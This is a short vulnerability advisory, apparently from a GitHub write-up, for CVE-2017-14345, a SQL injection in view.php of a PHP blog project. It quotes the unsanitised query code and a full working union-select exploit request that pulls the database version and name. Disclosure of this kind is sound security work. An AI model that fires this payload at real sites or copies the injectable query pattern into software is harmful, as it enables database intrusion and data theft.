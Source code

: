 ## powered by sebao from 404team ##

**CVE-2017-14345**

## Vulnerability link ##

https://github.com/tianchoy/blog

## Vulnerability details ##
view.php Line 6

    <?php
    $id = $_GET['id'];
    $query = "select * from `arts` where `id`='$id' limit 1";
    $result = mysql_query($query);
    $row = mysql_fetch_array($result);

`$id` has not been filtered to cause injection

exploit:

Request

    GET /view.php?id=-1' union select 1,version(),3,database(),5,6# HTTP/1.1
    Host: 127.0.0.1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:55.0) Gecko/20100101 Firefox/55.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Cookie: _ga=GA1.1.1386599364.1495778629; AJSTAT_ok_times=1; bdshare_firstime=1502939052389; UserName=test; PassWord=e10adc3949ba59abbe56e057f20f883e
    Connection: close
    Upgrade-Insecure-Requests: 1
    Cache-Control: max-age=0
    
Response

In page title there is database version
